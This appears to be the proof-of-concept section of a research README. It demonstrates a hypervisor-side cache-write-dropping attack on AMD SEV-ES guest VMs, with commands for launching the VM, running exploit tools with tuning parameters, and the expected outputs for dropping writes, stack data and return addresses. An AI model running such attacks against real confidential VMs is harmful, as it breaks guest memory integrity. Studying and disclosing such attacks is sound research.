 ## PoCs

### 1. Drop generic writes

```bash
# hv> stands for command executed on the hypervisor; vm> stands for command executed on the guest VM 
# Launch VM (pinned to core 7)
hv> cd AMDSEV
hv> sudo taskset -c 7 ./launch-qemu.sh -hda ./focal.qcow2 -cdrom ./ubuntu-20.04.5-desktop-amd64.iso -vnc 1 -console serial -sev-es

# Login using the password 'ubuntu'
vm> sudo su
vm> apt update && apt -y install git vim build-essential

# enable a hugepage for illustration, 225 is the target index
vm> sysctl -w vm.nr_hugepages=1

# First, you need to copy the file generic-writes-drop.c from the initial archive to the VM.
vm> gcc generic-writes-drop.c -O2 -o generic-writes-drop

# Run
vm> ./generic-writes-drop 0

# Before it ends, run exploit in another terminal
sudo ./blind <APIC Interval> <Number of non-zero steps> <L2 target index>
```

If it takes too long or you think the APIC_Interval is too small which only leads to zero-steps, you can just break it via `ctrl+c` and clean up the shared page (the one for synchronization) by `sudo ./blind <> <> <> 1` .

If the L2 sets index is within 1~1024 then the single specified L2 set will be dropped.

Otherwise you can use 0xAAABBB for <L2 target index> to drop L2 sets whose index are within 0xAAA ~ 0xBBB

Note that, if given a wrong index, we will not see the drops. 
Because the target will be already evicted from the cache to memory. 
``` bash
hv> sudo ./blind 70 100 225

## Expected Output (in the VM)
phys: 0x43c00000
phys: 0x43c03840
result: 39999998815 (similar, i.e., not 40000000000)
```



### 2. Drop stack memory

```bash
vm> gcc math.c -o math

# Run
vm> ./math

# Run the exploit in another terminal
# This time we iteratively drop each index
hv> sudo ./invd.sh

# You will see a value with the correct index for stackframe 
# Then rerun the exploit (with the target index) multiple times to see passing parameters, the initializtion of local variables, and the assignment of local variables can all be dropped.
```


### 3. Reuse return value 

(Drop return address of the `call` instruction) 

```bash
vm> gcc timewarp.c -o timewarp

# Run
vm> ./timewarp

# Change the INTERVAL to a smaller one for single-stepping, e.g., 39. (See paper Table 1)
# Run the exploit in another terminal
hv> sudo ./invd.sh

# Expected Output (in the VM)
"Win!"
```
